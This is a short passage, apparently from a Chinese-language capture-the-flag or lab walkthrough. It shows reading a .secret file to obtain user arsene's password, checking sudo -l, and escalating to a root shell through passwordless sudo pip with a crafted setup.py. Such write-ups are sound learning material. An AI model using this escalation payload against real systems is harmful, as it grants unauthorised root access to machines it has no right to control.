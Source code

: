 存在.secret

### 查看.secret

```
cat .secret
```

![image-20250317201011659](./assets/image-20250317201011659.png)

得到arsene密码



### 执行sudo -l

```
sudo -l
```

![image-20250317201057232](./assets/image-20250317201057232.png)

免密执行pip

（？那我要密码干啥）



### pip提权

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![image-20250317201535766](./assets/image-20250317201535766.png)
